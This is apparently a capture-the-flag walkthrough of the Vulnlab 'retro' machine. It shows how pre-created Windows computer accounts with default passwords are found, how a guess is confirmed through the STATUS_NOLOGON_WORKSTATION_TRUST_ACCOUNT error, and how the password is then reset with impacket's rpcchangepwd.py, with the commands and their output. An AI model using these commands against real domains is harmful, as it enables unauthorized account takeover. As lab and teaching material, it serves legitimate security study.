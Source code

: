 
>💡 
>Recently, I came across an intriguing piece of research published by Oddvar Moe on pre-created computer accounts. Apparently, checking the box Assign this computer account as a computer prior to Windows 2000 changes the computer account password to one that is identical to the computer name.
>This is the case when the computer account was created manually by the administrator and has never been used in the domain. To find such accounts, we look for the UserAccountControl >flag value equal to 4128. Then we can extract a list of computers and try to log in using CrackMapExec. The value of the indicator The error message `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` will indicate that the guessed password for the computer account is correct.We must change the password before we can use the computer account. This can be done with various tools, such as `kpasswd.py` or `rpcchangepwd`.
>py. Note that using Kerberos authentication will exempt you from changing the computer account password. This behavior was discovered by Filip Dragovic


So let's try to reproduce the attacks as described on the blog.

```bash
└─# impacket-smbclient retro.vl/BANKING\$:banking@10.10.121.100                                                           
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] SMB SessionError: code: 0xc0000199 - STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT - The account used is a computer account. Use your global user account or local user account to access this server.          
```

As mentioned in the blog, we see: `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`, which means that the correct password for a computer account that has not yet been used has been guessed. The same error can also be observed with other tools such as CrackMapExec.

However, if we choose a different password, we get this message: `STATUS_LOGON_FAILURE`

```bash
─# impacket-smbclient retro.vl/BANKING\$:banking1234@10.10.121.100
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] SMB SessionError: code: 0xc000006d - STATUS_LOGON_FAILURE - The attempted logon is invalid. This is either due to a bad username or authentication information.
```

Before we can use this account, we need to change the password. We cannot change the password via SMB (according to my research). This is because we need to authenticate with the IPC$ share, and our identified computer account cannot be a pre-created computer account whose password has not been changed.

To do this, I used `rpcchangepwd`, which I finally found here. 

[impacket/examples/rpcchangepwd.py at a1d0cc99ff1bd4425eddc1b28add1f269ff230a6 · fortra/impacket](https://github.com/fortra/impacket/blob/a1d0cc99ff1bd4425eddc1b28add1f269ff230a6/examples/rpcchangepwd.py)

```bash
┌──(root㉿kali)-[~/Vulnlab/machines/retro]
└─# python rpcchangepwd.py  retro.vl/banking\$:banking@10.10.80.202 -newpass Liebe123
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Password was changed successfully.
```
